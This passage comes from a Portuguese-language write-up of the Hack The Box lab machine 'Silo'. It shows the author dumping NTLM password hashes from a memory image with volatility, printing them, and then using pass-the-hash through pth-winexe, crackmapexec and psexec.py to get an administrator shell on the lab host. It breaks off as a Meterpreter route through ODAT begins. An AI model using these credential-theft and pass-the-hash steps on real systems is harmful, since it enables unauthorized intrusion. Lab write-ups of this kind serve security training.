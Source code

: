 Pronto, com o profiler já determinado podemos começar a extrair informações do dump

Todos (ou quase todos) plugins que podemos utilizar se encontram em: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference

Depois de muita enumeração, conseguimos extrair hashs de senhas com o `hashdump`

`volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_v4.png)

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

## Pass-The-Hash como Administrator

Bom, uma vez que possuimos o hash do administrator podemos utilizar-se do pass the hash para logarmos como root na máquina

`pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.82 cmd`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_v5.png)

## Psexec.py com Hash

Também poderíamos logar através do psexec, ele possui suporte para hash

Primeiro verificamos se podemos utilizar do psexec (precisamos de uma pasta onde podemos escrever, pra poder upar o exe), utilizamos do `crackmapexec` para verificar isso

`crackmapexec smb 10.10.10.82 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_v6.png)

Pwn3d! Conseguimos logar!

Agora com o psexec, viramos administrator

`psexec.py administrator@10.10.10.82 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_v7.png)

Bom, esse foi o primeiro modo, agora vamos para o segundo, que é diretamente através do ODAT

# Escalação de Privilégio (2º Modo - ODAT - Meterpreter)

Bom, esse modo é mais direto, não é muito recomendado por que não sabemos exatamente o que está acontecendo, primeiro passo é criar o executável malicioso
